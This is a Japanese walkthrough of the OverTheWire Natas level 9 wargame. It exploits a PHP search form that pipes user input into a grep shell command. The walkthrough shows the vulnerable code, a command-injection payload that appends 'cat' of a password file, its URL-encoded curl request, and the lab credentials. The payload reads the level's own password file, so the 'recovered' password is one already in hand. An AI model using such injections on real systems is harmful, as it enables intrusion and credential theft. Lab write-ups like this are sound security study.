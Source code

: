 # NATAS9

- Username: natas9
- Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
- URL: http://natas9.natas.labs.overthewire.org

```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org
```
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
ヒントに
```
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```
と書いてあります。  
ブラウザで`http://natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl@natas9.natas.labs.overthewire.org/index-source.html`にアクセスします。
```
...html
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
...
```
コードをみると`$key`が空文字でなければ`dictionary.txt`の中に`$key`の値があるか判断しています。  
想定するコードは以下の通りです。()
```
$ grep -i ; cat /etc/natas_webpass/natas9 dictionary.txt
```
なので`key=; cat /etc/natas\_webpass/natas9`となるようにします。  
urlencodeするために`urlencode`という関数を定義します。
```sh
function urlencode {
  echo "$1" | nkf -WwMQ | sed 's/=$//g' | tr = % | tr -d '\n'
}
```

```
$ urlencode "; cat /etc/natas\_webpass/natas9"
```
```
%3B%20cat%20%2Fetc%2Fnatas%5C%5Fwebpass%2Fnatas9
```
```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl \
       -d "needle=%3B%20cat%20%2Fetc%2Fnatas%5C%5Fwebpass%2Fnatas9&submit=Search" \
          http://natas9.natas.labs.overthewire.org |
  head -n 30
```
```
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

African
Africans
Allah
Allah's
American
Americanism
Americanism's
Americanisms
```
これでpassword(`W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`)を得ることができました。
